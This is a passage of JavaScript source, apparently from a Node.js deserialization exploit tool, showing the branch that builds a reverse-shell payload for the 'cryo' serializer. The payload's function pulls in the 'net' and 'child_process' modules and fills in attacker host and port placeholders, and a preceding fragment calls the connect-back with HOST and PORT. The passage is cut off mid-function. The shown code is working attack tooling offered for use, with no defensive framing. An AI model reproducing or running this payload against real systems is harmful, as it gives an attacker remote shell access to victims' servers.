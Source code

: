 ```js
            }
            c(HOST, PORT);//####SENTINEL####
        }
    }
} else if (argv.vector == "rshell" && argv.serializer == "cryo") {
    if (typeof argv.lport == 'undefined' || typeof argv.lhost == 'undefined') {
        console.log("[-] RShell vector requires LHOST and LPORT to be specified");
        process.exit();
    }
    payload = {
        __proto: {
            function_prototype: function() {
                var net = require('net');
                var spawn = require('child_process').spawn;
                HOST = "####LHOST####";
                PORT = "####LPORT####";
                TIMEOUT = "5000";
                if (typeof String.prototype.contains === 'undefined') {
                    String.prototype.contains = function(it) {
